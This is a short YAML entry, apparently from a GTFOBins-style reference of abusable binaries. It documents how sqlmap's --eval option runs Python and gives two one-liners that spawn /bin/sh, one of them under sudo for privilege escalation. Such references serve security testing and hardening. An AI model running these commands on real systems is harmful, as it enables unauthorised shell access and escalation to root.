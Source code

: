 ```yaml
---
description: This allows to execute [`python`](/ptbins/python/) code, other functions may apply.
functions:
  shell:
    - code: sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
  sudo:
    - code: sudo sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
---
```

